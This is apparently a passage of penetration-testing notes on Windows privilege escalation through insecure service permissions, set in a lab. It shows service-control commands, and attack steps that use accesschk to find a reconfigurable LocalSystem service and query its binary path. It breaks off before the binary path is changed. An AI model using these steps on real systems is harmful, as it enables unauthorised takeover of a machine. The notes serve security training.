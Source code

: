 Modify a configuration option of a service:
> sc.exe config \<name> \<option> = \<value>   
> sc config BITS start= disabled   
> sc config BITS start= Automatic   
> Set-Service -Name BITS -StartupType Disabled   
> Set-Service -Name BITS -StartupType Automatic

Start/Stop a service:
> net start/stop \<name>   
> net stop BITS   
> Stop-Service -Name "BITS"   
> Start-Service -Name "BITS"  
> sc start BITS  
> sc stop BITS  

Using accesschk to find permissions on services.
> accesschk.exe /accepteula -uwcqv user BITS

### Attacking Insecure Service Permissions 
1. Find the weak service and verify:
> accesschk.exe /accepteula -uwcqv user *    
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwcqv user *
.\accesschk.exe /accepteula -uwcqv user *
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```   
Because we have *SERVICE_CHANGE_CONFIG* and *SERVICE_START/STOP* we can modify the binary path the service will start

2. Find and modify service binary:
> sc qc daclsvc
```powershell
C:\PrivEsc\tools>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
